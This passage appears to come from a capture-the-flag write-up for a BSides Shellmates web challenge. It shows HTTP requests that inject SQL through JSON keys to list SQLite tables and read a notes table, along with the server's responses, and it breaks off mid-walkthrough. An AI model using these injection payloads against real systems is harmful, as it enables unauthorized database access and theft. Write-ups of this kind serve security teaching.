 For `s` value :

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 06:54:42 GMT
content-type: application/json
content-length: 52
connection: close

{"result":"CREATE TABLE sqlite_sequence(name,seq)"}
```

Or like this :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Accept-Language: en-US,en;q=0.9
Connection: close

{"sql FROM sqlite_master LIMIT 100 OFFSET 3;--":100}
```

By modifying the offset each time, we find that there is 4 databases ;

 - jokes
 - notes
 - flags
 - sqlite_sequence

Now, let's checkout the notes in the `notes` db :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 26
...
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"note from notes;--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 07:01:40 GMT
content-type: application/json
content-length: 42
connection: close

{"result":"Add function to upload jokes"}
```

this is for the first note, for the second one :

